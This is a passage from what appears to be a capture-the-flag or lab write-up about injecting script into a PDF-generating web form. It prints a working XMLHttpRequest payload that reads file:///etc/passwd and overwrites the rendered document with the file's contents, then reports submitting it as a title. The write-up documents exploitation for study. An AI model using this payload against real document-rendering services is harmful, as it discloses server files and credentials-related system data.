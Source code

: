     <script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>



Instead of changing one field, it re-writes the entire document to be
the contents of the given file, in this case, `/etc/passwd`. I submitted
this as the title, and a dummy author, and then loaded the PDF again:

![](/img/image-20200227222709043.png)
